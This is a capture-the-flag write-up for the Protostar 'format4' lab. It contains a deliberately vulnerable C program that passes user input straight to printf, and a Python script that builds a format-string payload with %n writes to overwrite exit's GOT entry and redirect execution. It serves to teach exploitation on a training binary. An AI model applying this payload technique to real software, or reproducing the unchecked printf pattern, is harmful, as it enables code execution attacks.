 # Protostar - format4

## Analyzing the source code

```text
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```

As this is a [format string](https://www.youtube.com/watch?v=0WvrSfcdq1I&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=18) challenge we will attack through the `prinf` in line 20. This command is immediately followed by an `exit` so changing the return address of the function is of no use. Instead, we are going to manipulate the [got.plt](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html) registry of `exit` , forcing it to call `hello` instead. 

## Gathering Information

Before we can write the exploit itself we need to answer some questions:

#### What is the address of `hello`?

Grab it using gdb:

![](../.gitbook/assets/image%20%2862%29.png)

#### What is the location of `exit`'s got.plt?

Using `objdump -TR` we can see it's `0x08049724`.

![](../.gitbook/assets/image%20%2865%29.png)

You can also use gdb to find `exit@plt` with `i functions exit`, print its contents with `disas` and see than the first line jumps to what's located in `0x08049724`.

#### At which offset can we input values?

To find the offset at which we are starting to read from the buffer try something in the lines of:

![](../.gitbook/assets/image%20%2863%29.png)

We can use variables starting with the fourth.

## Exploiting

In `printf`'s [man page](https://linux.die.net/man/3/printf), under the bugs section it says:

![](../.gitbook/assets/image%20%2864%29.png)

We can write an address, and %n will write data there! But what will be written?

> ...the number of characters written so far is stored. \[[source](https://stackoverflow.com/questions/3401156/what-is-the-use-of-the-n-format-specifier-in-c)\]

The value we need to write is huge! To get over it we will write the data in three parts - LSB byte, two middle bytes, and MSB byte. To set the offset we need to insert values between the `%n`'s, that will be done using %SIZEx which translates to the padding of SIZE.

```text
#!/usr/bin/python3

import sys

exit_lsb_address = b"\x24\x97\x04\x08"
exit_mid_address = b"\x25\x97\x04\x08"
exit_msb_address = b"\x27\x97\x04\x08"

lsb_offset = b"%167x "
mid_offset = b"%974x "
msb_offset = b"%130x "

payload = b""
payload += exit_lsb_address + exit_mid_address + exit_msb_address + \
           lsb_offset + "%4$n ".encode() + mid_offset + "%5$n ".encode() + \
           msb_offset +  "%6$n ".encode()

sys.stdout.buffer.write(payload)
```

#### Two notes

* The overall structure of the payload is:
  * Three write addresses
  * 3 Times - Offset to achieve good value, write to address with %INDEXn \[INDEX which we discovered earlier\]. 
* I used `sys.stdout.buffer.write` to print the exact values without UTF-8. There are other ways to achieve this.

